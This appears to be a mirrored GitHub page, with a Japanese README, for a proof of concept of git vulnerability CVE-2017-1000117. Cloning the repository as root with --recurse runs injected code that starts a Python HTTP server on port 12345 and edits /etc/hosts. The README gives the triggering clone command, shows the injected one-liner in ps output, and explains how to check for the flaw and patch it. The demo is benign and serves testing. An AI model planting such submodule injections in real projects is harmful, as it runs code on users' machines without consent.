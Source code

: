 # CVE-2017-1000117-test

CVE-2017-1000117の検証

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/Shadow5523](https://github.com/Shadow5523) |
| Url      | [https://github.com/Shadow5523/CVE-2017-1000117-test](https://github.com/Shadow5523/CVE-2017-1000117-test)                                               |
| Stars    | 0                                                          |
| License  | GNU General Public License v2.0                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

## 動作説明
これはCVE-2017-1000117の脆弱性で動作するものです。
このレポジトリをroot権限でgitコマンドに--recurseオプションをつけてクローンをすると、
勝手に12345ポートでリッスンするhttpサーバが動きます。  
httpサーバの動作を停止するにはプロセス番号を調べてkillしてください。  
  
## 動作が確認されたOS
CentOS7  
macOS Sierra  
Debian8  

## 実行コマンド
以下のコマンドを実行する。完了するとコンソールが止まってしまうのでCtrl + Cで抜けるようにする。
```
    [root@localhost ~]$ git clone --recurse https://github.com/Shadow5523/CVE-2017-1000117-test.git

```
  
## 脆弱性の確認方法
1.PSコマンドを実行しPythonのコードが動いているかを確認する。  
```
    [root@localhost ~]$ ps ax | grep http
    21365 pts/0    S      0:00 python -c (lambda j: (lambda s, i: s.setsockopt(i.SOL_SOCKET, i.SO_REUSEADDR, 1) or s.bind((i.gethostname(), 12345)) or s.listen(10) or map(lambda y: y.send("HTTP/1.0 200 OK\r\nContent-Length: 20\r\nContent-Type: text/html\r\n\r\n<html><center>test</center></html>"), (s.accept()[0] for x in iter(int, 1))))(j.socket(j.AF_INET, j.SOCK_STREAM), j))(__import__("socket"))
    21381 pts/0    S+     0:00 grep --color=auto ht

```
  
2.netstatで12345ポートがリッスンされているか確認する。  
```
    [root@localhost ~]$ netstat -tanp | grep 12345
    tcp        0      0 127.0.0.1:12345         0.0.0.0:*               LISTEN      21365/python

```

  macOSの場合は以下のコマンドで確かめる。  
```
    MAcbook:~ root# lsof -nP -iTCP -sTCP:LISTEN
    COMMAND   PID USER   FD   TYPE             DEVICE SIZE/OFF NODE NAME
    Python  14231 root    3u  IPv4 0xa3955f2183c66251      0t0  TCP 127.0.0.1:12345 (LISTEN)
```
  
3./etc/hostsの最下行に「127.0.0.1 ホスト名」が追加されているかを確認する。

## 対策  
gitを最新バージョンへとアップデートする。以下のリンクを参照。  
[GitHubのリモートレポジトリから最新のGitへアップデートする方法](http://shadows.dip.jp/?p=493)


## Get the content

```
git clone https://github.com/Shadow5523/CVE-2017-1000117-test
cd CVE-2017-1000117-test
```

{% embed url="https://github.com/Shadow5523/CVE-2017-1000117-test" %}

<figure><img src="https://avatars.githubusercontent.com/u/22784789?v=4" alt=""><figcaption><p>Shadow5523</p></figcaption></figure>
